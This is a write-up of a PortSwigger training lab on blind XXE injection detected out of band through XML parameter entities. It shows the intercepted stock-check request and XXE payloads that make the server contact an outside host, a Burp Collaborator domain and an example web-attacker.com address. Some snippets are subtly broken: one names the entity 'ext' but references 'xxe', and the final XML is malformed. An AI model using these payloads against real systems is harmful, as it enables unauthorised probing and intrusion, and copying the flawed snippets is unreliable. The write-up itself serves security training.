 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa4f23ae-5538-4b0d-ad81-5c3fd061b2cf)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gwBsRlQTEvY287RWKXKNzyrlafd6MhsP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (**%**) which contains the url of our collaborator server -`<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %xxe; ]>` & in that we can reference the parameterized entitiy using - `%ext;`

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#basic-blind-xxe

**Payload -**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://ibxj9hi7igb643lzee9r5ghu7ldc11.oastify.com"> %xxe; ]> 
 <productId>% 1</productId>
 <storeId>1</storeId>
</stockCheck>
```


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/62ac4c21-2258-4736-a8e8-519399b87b8e)

In the response it says that - `XML parsing error` but it means that the xml parser indeed parsed the xml code and made an outbound request to our collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e7d2d8f7-c3fe-416b-82a4-102e382a30a9)

And we've solved the lab !

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cd32a23-285d-4267-9cfd-64c3959a5f99)















